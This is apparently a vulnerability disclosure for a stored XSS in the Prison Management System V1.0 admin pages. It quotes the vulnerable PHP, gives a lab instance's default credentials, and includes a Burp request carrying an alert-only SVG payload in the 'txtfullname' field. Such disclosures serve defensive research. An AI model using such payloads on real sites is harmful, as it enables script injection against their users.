

# Prison Management System
## XSS on `/Admin/add-admin.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Admin/login.php
admin
admin123
```

### Affected Page:

```
/Admin/add-admin.php、/Admin/user-record.php
```

The parameter  `txtfullname` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Admin/add-admin.php
13 $name = $_POST['txtfullname'];
41 $sql = 'INSERT INTO users(username,password,phone,fullname,photo) VALUES(:username,:password,:phone,:fullname,:photo)';
42 $statement = $dbh->prepare($sql);
43 $statement->execute([
44 	':username' => $username,
45	':password' => $password,
46  ':phone' => $phone,
47	':fullname' => $name,
48	':photo' => $location
49 ]);
```

```php
# /Admin/user-record.php
232 <td><div align="center" class="style2"><?php echo $row['fullname'];  ?></div></td>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert`123`>
```

Burp Request:

```
POST /Admin/add-admin.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 695
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLj0CY8yOCmVxA8zf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Admin/add-admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=6lvd6ov74di62etmpiketusjoj
Connection: close

------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtusername"

1
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtfullname"

<svg/onload=alert`123`>
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtpassword"

2
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="txtphone"

3
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="avatar"; filename="1.jpg"
Content-Type: image/jpeg

123
------WebKitFormBoundaryLj0CY8yOCmVxA8zf
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundaryLj0CY8yOCmVxA8zf--
```


### Screenshot



